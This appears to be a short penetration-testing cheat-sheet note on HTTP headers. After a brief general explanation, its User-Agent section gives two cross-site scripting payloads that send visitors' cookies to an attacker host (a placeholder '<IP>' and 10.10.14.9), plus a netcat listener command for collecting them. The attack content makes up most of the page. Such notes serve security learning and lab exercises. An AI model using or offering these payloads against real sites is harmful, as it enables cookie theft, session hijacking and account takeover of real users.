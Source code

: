# Headers

HTTP headers contain metadata in key-value pairs that are sent along with HTTP requests and responses. They can be used to define caching behavior, facilitate authentication, and manage session state. HTTP headers help the API client and server communicate more effectively—and enable developers to optimize and customize the API’s behavior.

## User-Agent

We can do a XSS attack by changing the User-Agent header to a malicious payload. For example, we can use the following payload to steal the cookie:

```bash
User-Agent: <script>document.location='<IP>/?c='+document.cookie</script>
User-Agent: <img src=x onerror="this.src='http://10.10.14.9/?c='+document.cookie;"/>
```

Before this, we should have netcat listening on port 80:

```bash
nc -lvnp 80
```